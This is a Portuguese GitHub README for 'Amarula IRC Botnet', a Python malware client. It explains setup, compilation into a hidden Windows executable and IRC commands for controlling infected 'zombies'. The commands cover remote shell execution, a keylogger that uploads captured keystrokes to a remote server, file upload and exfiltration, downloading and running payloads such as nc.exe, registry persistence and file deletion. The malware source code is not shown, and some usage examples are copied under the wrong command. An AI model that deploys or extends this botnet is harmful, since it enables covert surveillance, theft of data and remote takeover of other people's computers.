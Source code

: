 # Amarula IRC Botnet v1.0
<h4> Abacatch Version </h4>


Botnet client feito em **Python 2.7** *(written in Python 2.7)* <br>
Testado em: **Windows XP, 8, 10**, *(tested on)*<br>
Escrito por: **Carlos Néri Correia** *(coded by)* <br>
Versão: **1.0** *(version)*

## Como funciona? *(how it works)*
O Amarula IRC Botnet é um *botnet client* codado em Python 2.7. O malware nada mais é do que um cliente IRC, especialmente construído, que se conecta a um server IRC e entra em um canal como se fosse um usuario comum.
O Administrador, por sua vez, também estará conectado ao canal, mas através de um programa de cliente IRC normal (como o Hexchat), de forma que, toda vez que o Adm envia uma mensagem para o canal, o BOT interpreta essa mensagem como um comando a ser executado no sistema. São diversas as vantagens de administrar os BOTs através do IRC - Os servers são ativos 24h, não é necessário abrir portas no PC, o IRC é um protocolo teoricamente confiável, entre outras.

## Funções *(features)*
- Executar comandos shell *(shell command execution)* <br>
- Keylogger - Captura de teclas digitadas pelo cliente em tempo real *(real-time keylogging)* <br>
- Listar diretório atual do bot *(list current working directory)* <br>
- Listar todos os arquivos de um *diretorio (list all directory files)* <br>
- Obter ip local e externo do bot *(get local and WAN bot IP)* <br>
- Download de arquivos da web via HTTP *(HTTP web downloading)* <br>
- Upload de arquivos para servidor web via HTTP *(upload bot files to web server)* <br>
- Envio de logs para servidor remoto *(send logs to remote server)* <br>
- Deletar arquivos no BOT *(delete files)* <br>
- Executar arquivos no BOT *(run files)*
- Persistência *(persistence)*<br>

## Instalação *(install)*
Faça o download do ZIP ou clone o repositório:
    
	$ git clone https://github.com/hackerama/Amarula-Python-Botnet.git

Algumas bibliotecas do python são requeridas:   
    
	$ pip install requests
	$ pip install pypiwin32

A biblioteca pyHook, também é exigida. abixo o link para baixar o executável de instalação.

**Download pyHook**
https://sourceforge.net/projects/pyhook/

## Configuração *(setup)*
Algumas variáveis precisarão ser definidas ou alteradas, para que a conexão do BOT com o IRC seja feita corretamente. <br>
Toda a administração dos BOTs será feita através de um cliente IRC comum. O Administrador enviará comandos para o canal onde os BOTs estarão conectados e intrepretarão as mensagens enviadas como comandos. 

***VARIÁVEIS:*** *(variables)* <br>
![Screenshot](https://preview.ibb.co/j7QStm/variables.png)

***ircServer*** *(sets IRC server address)* <br>
Endereço do servidor IRC ao qual o BOT irá se conectar. <br>

***ircPwdCha*** *(sets IRC channel password)*<br>
Define o password do canal IRC ao qual o bot irá se conectar. <br>
Caso o canal não possua password, deixar em branco ("") <br>
Importante setar um password no canal para que outras pessoas não entrem e possam controlar os seus bots.

***ircChanne*** *(sets IRC channel)* <br>
Canal do IRC ao qual o bot irá se conectar. <br>
É interpretando as mensagens enviadas para o canal que o BOT irá executar os comandos internamente no cliente.

***botPass*** *(sets password to activate and connect to the BOTS)* <br>
Define um passoword para ativar, conectar e controlar os bots no canal <br>
 
***botAdmi*** *(Admin Name - NOT OBLIGATORY)* <br>
Define um nome pelo qual os zumbis te chamarão <br>
Não é obrigatório. <br>

***urlUpload*** *(Upload page on remote server)* <br>
Página de upload no servidor remoto, para a função de envio remoto. <br>
Será criado um arquivo *capt-(nome do PC).txt* na mesma pasta de upload.php, no servidor.  

***ldir*** *(sets local directory, dropping directory)* <br>
Diretório local, onde será salvo o arquivo de log. <br>
Diretório para o qual o .exe se copia para ser executado em persistência quando a máquina reiniciar.



## Compilar *(compile)*

	$ pyinstaller -w amarula.py --onefile
    
## Controlando os bots *(usage)*

![Screenshot](https://preview.ibb.co/kwPyzR/help.png)

- [dir] para vizualizar o diretorio atual do zumbi <br>
		
		$ USAGE: ls <nickdobot> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ls] para listar o conteudo da pasta atual <br>
		
		$ USAGE: ls <nickdobot> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ip] para mostrar os ips do bot
		
		$ USAGE: ls <nickdobot> 
		$ Ex: ip DESKTOP-PC-3456
	
- [upload] para fazer upload de arquivos do bot
  Será feito o upload para o servidor web definido na variável urlUpload 
		
		$ USAGE: $ USAGE: upload <Arquivo> <nickdobot>
		$ Ex: upload leak.txt DESKTOP-PC-3456

- [download] para baixar arquivos da web para o zumbi
		
		$ USAGE: $ USAGE: download <link> <nickdobot>
		$ Ex: download http://seusite.com/nc.exe DESKTOP-PC-3456

- [run] para executar um programa ou arquivo.

		$ USAGE:  run <programa> <nickdobot>
		$ Ex: run calc.exe DESKTOP-PC-3456

- [delete] para excluir arquivos
		
		$ USAGE: delete <arquivo> <nickdobot>
		$ Ex: delete leak.txt DESKTOP-PC-3456

- [start keylog] para ativar o keylogger
  O arquivo de log será upado para o servidor web a cada 100 caracteres digitados. <br>
  Será iniciado um novo processo no sistema do BOT para o keylogger.		

		$ USAGE: keylog start <nickdobot>
		$ Ex: keylog start DESKTOP-PC-3456


- [stop keylog] para desativar o keylogger
		
		$ USAGE: keylog stop <nickdobot>
		$ Ex: keylog stop DESKTOP-PC-3456

- [persistence]   para instalar persistencia no registro do Windows
  Instala a persistencia, iniciando o bot toda vez que o PC do cliente iniciar <br>
		
		$ USAGE: persistence <nickdobot>
		$ Ex: persistence DESKTOP-PC-3456

- [shell] para executar comandos no terminal.
		
		$ USAGE: shell <comando> <nickdobot>
		$ Ex: shell echo HACKED hack.txt && DIR hack.txt DESKTOP-PC-3456
		
- [sair] para que os bots ativos saiam do canal <br>

		$ USAGE: sair		
		
- [sair] matar todos os BOTs ativos <br>
  Todos os zumbis ativos desconectam-se do IRC
		
		$ USAGE: matar		
